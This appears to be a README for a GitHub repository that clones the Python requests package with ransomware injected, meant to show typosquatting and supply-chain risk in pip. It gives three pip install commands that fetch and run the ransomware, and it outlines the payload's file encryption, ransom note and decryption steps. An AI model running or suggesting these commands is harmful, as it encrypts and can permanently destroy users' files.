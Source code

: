 
# MALWARE DISCLOSURE
<span style="color:red">THIS REPOSITORY IS MALWARE! Installation via pip WILL ENCRYPT YOUR FILES.</span>

This repository is a clone of the python requests package with ransomware injected into it. This project is to demonstrate. This repository constitutes `dual use content` per the [github malware policy](https://docs.github.com/en/github/site-policy/github-community-guidelines#active-malware-or-exploits).  

## Purpose

The process in which pip works is flawed. If this package was published to pypi, under a different name with a low levenshtein distance it could have catastrophic consequences. The inherent flaws in the pip package manager are multipronged.  

- pip allows for arbitrary code execution with a single install command.
  - one mistyped letter could cause irreversible damage to a developer's computer
- pypi does not actively scan for malware on their platform
  - some 3rd parties do this with a reactionary approach

This repository is not intended to be published, but to show the dangers and inherent trust that a developer must accept when using a package or library.  
Many popular packages have hundreds of dependencies. The simple and common act of including a single package in a requirements.txt or pip instal means that you trust the code of every one of these hundreds of developers. Numerous instances of supply chain attacks have occurred in recent years and this danger is very real.

## DANGER!

The following commands trigger the malware attack, and should not be run.  
`pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`pip3 install git+https://github.com/parishwolfe/educational-tool-ransomware`  
`python3 -m pip install git+https://github.com/parishwolfe/educational-tool-ransomware`  

A decryption tool is installed with this ransomware, the steps to decrypt are as follows:

- navigate to your desktop, and read RANSOM.txt
- copy the encryption key from RANSOM.txt
- navigate to your home directory, there you will find malware.py
- run `python3 malware.py encryption_key`

**NOTE** a double encryption scenario is possible, if this occurs, your data will be lost forever!!

The action of this repository is as follows:

- determine the operating system
- recursively operate on `my documents`|`/home/${USER}`|`/Users/${USER}` for windows|linux|mac
- Flag any file with an indication of sensitive information in the filename, (i.e. 2020_tax, mortgage-application, bitcoinWallet)
  - a real malicious script would post these files to some file hosting site
- encrypt all files in the user's documents folder
- show ransom demands (with password to decrypt) as RANSOM.txt on your desktop

## Original Content

---

# Requests

**Requests** is a simple, yet elegant, HTTP library.

```python
>>> import requests
>>> r = requests.get('https://api.github.com/user', auth=('user', 'pass'))
>>> r.status_code
200
>>> r.headers['content-type']
'application/json; charset=utf8'
>>> r.encoding
'utf-8'
>>> r.text
'{"type":"User"...'
>>> r.json()
{'disk_usage': 368627, 'private_gists': 484, ...}
```

Requests allows you to send HTTP/1.1 requests extremely easily. There’s no need to manually add query strings to your URLs, or to form-encode your `PUT` & `POST` data — but nowadays, just use the `json` method!

Requests is one of the most downloaded Python package today, pulling in around `30M downloads / week`— according to GitHub, Requests is currently [depended upon](https://github.com/psf/requests/network/dependents?package_id=UGFja2FnZS01NzA4OTExNg%3D%3D) by `500,000+` repositories. You may certainly put your trust in this code.

[![Downloads](https://pepy.tech/badge/requests/month)](https://pepy.tech/project/requests)
[![Supported Versions](https://img.shields.io/pypi/pyversions/requests.svg)](https://pypi.org/project/requests)
[![Contributors](https://img.shields.io/github/contributors/psf/requests.svg)](https://github.com/psf/requests/graphs/contributors)

## Installing Requests and Supported Versions

Requests is available on PyPI:

```console
$ python -m pip install requests
```

Requests officially supports Python 2.7 & 3.6+.

## Supported Features & Best–Practices

Requests is ready for the demands of building robust and reliable HTTP–speaking applications, for the needs of today.

- Keep-Alive & Connection Pooling
- International Domains and URLs
- Sessions with Cookie Persistence
- Browser-style TLS/SSL Verification
- Basic & Digest Authentication
- Familiar `dict`–like Cookies
- Automatic Content Decompression and Decoding
- Multi-part File Uploads
- SOCKS Proxy Support
- Connection Timeouts
- Streaming Downloads
- Automatic honoring of `.netrc`
- Chunked HTTP Requests

## API Reference and User Guide available on [Read the Docs](https://requests.readthedocs.io)

[![Read the Docs](https://raw.githubusercontent.com/psf/requests/main/ext/ss.png)](https://requests.readthedocs.io)

## Cloning the repository

When cloning the Requests repository, you may need to add the `-c
fetch.fsck.badTimezone=ignore` flag to avoid an error about a bad commit (see
[this issue](https://github.com/psf/requests/issues/2690) for more background):

```shell
git clone -c fetch.fsck.badTimezone=ignore https://github.com/psf/requests.git
```

You can also apply this setting to your global Git config:

```shell
git config --global fetch.fsck.badTimezone ignore
```

---

[![Kenneth Reitz](https://raw.githubusercontent.com/psf/requests/main/ext/kr.png)](https://kennethreitz.org) [![Python Software Foundation](https://raw.githubusercontent.com/psf/requests/main/ext/psf.png)](https://www.python.org/psf)
